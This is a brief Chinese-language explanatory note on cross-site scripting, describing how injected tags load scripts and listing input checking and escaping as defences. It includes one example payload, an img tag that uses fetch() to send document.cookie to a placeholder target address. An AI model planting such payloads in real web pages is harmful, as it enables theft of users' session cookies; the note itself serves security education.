 # 跨站脚本注入 (cross site scripting)

## 攻击示例：
根据image、script、iframe等标签的src会自动加载链接的特性，在用户输入中添加带有javascripts代码的标签。其它用户在载入恶意标签时触发代码，达到攻击目的。

```html
// 抓取用户cookie
<img src="javascript: fetch('目标地址', {method: 'post', body: document.cookie});">
```


## 防范措施
1. 前端检测用户输入
2. （除非在已知绝对安全的情况下）在将用户信息插入页面之前，对内容进行转义
